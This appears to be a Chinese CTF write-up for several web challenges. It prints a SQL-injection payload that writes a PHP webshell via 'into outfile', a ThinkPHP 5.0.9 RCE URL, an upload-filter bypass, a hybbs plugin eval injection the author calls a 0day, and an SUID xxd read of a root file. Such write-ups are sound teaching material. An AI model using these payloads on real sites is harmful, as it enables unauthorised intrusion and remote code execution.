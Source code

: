 ## sqlguncms

这是一道简单CMS页面，针对搜索框进行测试，暴漏出SQL查询语句与绝对路径

![image-20210823132505328](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823132505328.png)

payload

```
key=-1%'union select 1,2,3#
```

现在写入一句话木马

```
key=-1%'union select 1,'<?php system($_GET[x]);?>',3 into outfile '/var/www/html/shell.php'#
```

访问`www.bmzclub.cn:20754/shell.php?x=ls /`，得到flag



## ThinkPHP

发现版本为`ThinkPHP V5.0.9`

直接利用cve

```
http://www.bmzclub.cn:20754/think/app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /
```



## 简历系统

登陆页面可以通过万能密码进行登录

![image-20210823153538552](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823153538552.png)



登录后可以看到一个文件上传点，这里可以传一个马上去

这里只有一个文件名绕过，可以通过大小写进行绕过

![image-20210823195118627](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823195118627.png)

根目录下的log.php记录请求访问日志，所以传入php代码可被log.php记录，导致 getshell

![image-20210823195208061](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823195208061.png)

这里也可以利用内置的ping命令函数

![image-20210823194651622](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823194651622.png)

![image-20210823194612936](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823194612936.png)

直接cat /flag



## 伟大宝宝的宝藏

打开题目是hybbs2.3.2的，直接百度搜索相关漏洞即可
利用漏洞：

1. 越权遍历给admin发私信，得到密码baobao(后9位需爆破)`账户/密码：admin/baobao123456789`
2. 修改全局配置-上传后缀加php（这个方法已经失效，题目被改过）
3. 利用插件插入php代码



打开题目我们先注册一个新用户`111`，观察个人中心，猜测admin用户的个人中心为`admin.html`

![image-20210823210351648](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823210351648.png)

成功登录`admin`用户的 个人中心

![image-20210823210643489](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823210643489.png)

观察一下这个`个人中心`，在聊天发现提示，猜测是密码提示，爆破密码为：baobao123456789

![image-20210823210849402](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823210849402.png)



这之后就有三种解法

- **预期解+非预期解1**：[BMZCTF渗透测试公开赛 WP](https://mp.weixin.qq.com/s/sLwDF7c8bqpB6629dGytYg)

- 其中非预期解1参考：[[freebuf解读] hybbs getshell](https://www.freebuf.com/vuls/243833.html)

### 非预期解2

这里用到了0day

首先登录admin用户后台，我们新增一个插件，并插入恶意代码：

```
111','name' =>eval($_REQUEST[1]),//
```

![image-20210823204759532](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823204759532.png)

![image-20210823204850583](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823204850583.png)

得到咱们webshell

```
http://www.bmzclub.cn:20754/Plugin/111/conf.php?1=system('whoami');
```

![image-20210823205126425](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823205126425.png)

通过搜索文件你会看到在根目录下有一个flag.sh文件，判断flag在/root/flag，但你当前权限非root

![image-20210823205557232](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823205557232.png)

这里就需要使用suid的xxd命令获取root目录下的flag

```
xxd "/root/flag" | xxd -r
```

![image-20210823205925081](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210823205925081.png)



## zblog

